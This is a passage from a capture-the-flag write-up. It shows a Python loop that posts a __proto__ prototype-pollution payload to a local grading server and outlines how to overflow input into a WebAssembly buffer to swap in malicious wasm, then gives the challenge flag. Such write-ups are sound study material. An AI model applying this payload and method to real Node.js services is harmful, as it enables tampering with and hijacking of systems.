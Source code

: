 ```python
    newdata = "00"*i + data 
    endpoint = "http://localhost:8000/grade/grade"
    response = requests.post(endpoint,json = 
        {
        "__proto__":{
            "size":3000
        },
        "input":newdata
    })
    if "Process crashed or didn't return an integer" in response.text or "Wrong Answer" in response.text:
        continue 
    print(response.text)
```

## The Flag
`grey{n0d3j5_3v3ry7h1n6_p0llu710n}`

## TLDR
### Step 1: Find the Prototype Pollution
There is a prototype pollution present in ``util.copy`` Use it to pollute the ``size`` key, which is used in ``utils.decode_user_hex_string``
### Step 2: Find the Pwn
Between ranges ``1000 to 3000`` of the size value, data overflows from the ``input`` key into the ``code`` variable, allowing you to overwrite the wasm with your own malicious wasm.
### Step 3: Overwriting the WASM
Craft and Compile your own WASM code to return 0 whenever the levenshtein function is called. Add appropriate section header bytes (`sectionId`, `sectionSize`) to your WASM to extend the size of the WASM to be the same as the original WASM (737 bytes)
### Step 4: Brute Forcing the Pad Size
Craft a programme to brute force the number of pad bytes needed to be added in front of the ``input`` in order for the code to be executed. 
## Comments and Afterthoughts
I found out afterwards that there's a reported github issue on this:
https://github.com/nodejs/node/issues/41467

An interesting thing I found that when the source code's length was too large, or if the size given was too large, the code would run perfectly fine, without the vulnerability. I'm not experienced with PWN at all to know why, but I thought it was rather weird (and painful).

At first, I tried to inspect the levenstein wasm code to find some vulnerability in it. Thankfully, this was not a RE challenge. Not that a PWN challenge is any better but you get the idea. 

Also it is as of writing this writeup that I have just realised i did not notice there was an entire assembly folder for the wasm code OOPS thankfully its not really relevant to the challenge :P

This is my first time doing anything remotely related to pwn, so I'm glad I managed to solve it within the time allocated. Lots of braincell's were definitely lost though. 

This is probably one of the best web challenges I've done (and solved). In fact, I think all of the web challenges in this CTF were pretty good. Props to the challenge creators (And thanks for giving the source code to all challenges instead of making us do blind web exploitations ;-;)
